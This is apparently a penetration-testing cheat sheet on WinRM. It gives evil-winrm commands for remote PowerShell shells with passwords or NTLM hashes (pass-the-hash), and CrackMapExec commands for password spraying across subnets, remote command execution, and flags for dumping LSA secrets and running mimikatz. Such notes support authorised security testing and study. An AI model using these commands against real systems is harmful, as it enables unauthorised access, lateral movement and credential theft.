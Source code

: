 # WinRM

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Windows dosent have a banner to say it is winrm.We can tell if it winrm by port  5985 - 5986
{% endhint %}

## Metasploit Metepreter Exploit

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Set paylaod metepreter

## &#x20;evil-winrm

`Evil-WinRM` is a popular post-exploitation tool used by red teamers and penetration testers to get a PowerShell remote shell on a Windows machine using **WinRM** (Windows Remote Management). It's especially useful when you have **valid credentials** (username + password or NTLM hash).

### 🔧 Requirements

* **Valid credentials** (username + password OR NTLM hash).
* **WinRM enabled** on the target (usually port **5985** for HTTP or **5986** for HTTPS).
* Ruby and Bundler (if installing from source) or use Kali Linux (already installed).

### 🚀 Basic Usage (with Password)

```bash
evil-winrm -i <TARGET-IP> -u <USERNAME> -p <PASSWORD>
```

Example:

```bash
evil-winrm -i 10.10.10.123 -u administrator -p 'Passw0rd!'
```

### 🔐 Using NTLM Hash (Pass-the-Hash)

```bash
evil-winrm -i <TARGET-IP> -u <USERNAME> -H <NTLM-HASH>
```

Example:

```bash
evil-winrm -i 10.10.10.123 -u administrator -H aad3b435b51404eeaad3b435b51404ee:6cb75f652a9b52798eb6cf2201057c73
```

## &#x20;crackmapexec

CrackMapExec is a Swiss Army knife for pentesters that helps automate:

* Credential validation across many hosts
* Lateral movement via SMB, WinRM, or others
* Executing commands remotely
* Harvesting credentials and hashes
* Checking SMB shares and system info

### Basic Usage Syntax

```bash
crackmapexec <protocol> <target> [options]
```

* `<protocol>`: `smb`, `winrm`, `rdp`, `mssql`, etc.
* `<target>`: IP, IP range, CIDR, or list of IPs (e.g., `10.10.10.0/24`)

### Common Examples

1. SMB Login Check with Username & Password

```bash
crackmapexec smb 10.10.10.0/24 -u administrator -p 'Password123'
```

2. Using Username and NTLM Hash (Pass-the-Hash)

```bash
crackmapexec smb 10.10.10.0/24 -u administrator -H <NTLM_HASH>
```

3. Using a Password List for Password Spraying

```bash
crackmapexec smb 10.10.10.0/24 -u administrator -p /path/to/password_list.txt
```

4. Use with a File of Credentials

```
crackmapexec smb 10.10.10.0/24 -C creds.txt
```

Where `creds.txt` format:

```
username:password
user2:pass2
```

### Important Flags and Options

| Option        | Description                              |
| ------------- | ---------------------------------------- |
| `-u`          | Username                                 |
| `-p`          | Password or password list                |
| `-H`          | NTLM hash (pass-the-hash)                |
| `-d`          | Domain name                              |
| `-x`          | Execute command remotely                 |
| `--shares`    | List SMB shares                          |
| `--users`     | Enumerate users                          |
| `--lsa`       | Dump LSA secrets (requires privileges)   |
| `-M <module>` | Run a specific module (e.g., `mimikatz`) |

## Run commands on target

Basic syntax to run a command on a target

```
crackmapexec smb <target-ip-or-range> -u <username> -p <password> -x "<command>"
```

Example: Run `whoami` on a single host

```
crackmapexec smb 10.10.10.123 -u administrator -p 'Password123' -x "whoami"
```
